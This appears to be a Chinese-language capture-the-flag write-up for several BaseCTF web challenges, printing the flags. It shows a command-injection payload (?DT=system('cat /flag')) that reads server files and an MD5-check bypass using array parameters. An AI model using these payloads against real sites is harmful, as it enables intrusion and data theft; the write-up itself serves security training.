 :::info
BaseCTF{af2b1051-567b-4927-80b6-4f182e904381}

:::



### 喵喵喵´•ﻌ•`
![](../../../images/15e2379db99250c9f657ac3cedba8d8c.png)

裸的命令执行。

:::info
?DT=system('ls /');      

[+]查看根目录下所有文件，找到一个名为 flag 的文件

:::

:::info
?DT=system('cat /flag');

[+]获取 flag 文件内容，得到 flag

:::

:::info
BaseCTF{7edb9947-66f6-4f00-91e2-b2e9a4f7d3a8}  

:::



### md5绕过欸
![](../../../images/cfb57c9145e83135863f3edb4a6f8f91.png)

经典的 md5 绕过，全部使用数组绕过即可。

:::info
GET: ?name[]=1&name2[]=1

Post: password[]=2&password2[]=2

:::

:::info
 BaseCTF{110ab0c6-c3ed-4b01-99cf-38ac79db74cf}  

:::



### A Dark Room
![](../../../images/5c0665118912ce6d5be12c03194788b6.png)

好玩的小黑屋，但是没时间玩，直接 Ctrl + U 查看源代码。

![](../../../images/0af0fd8ae7f9b076e98f150712588918.png)
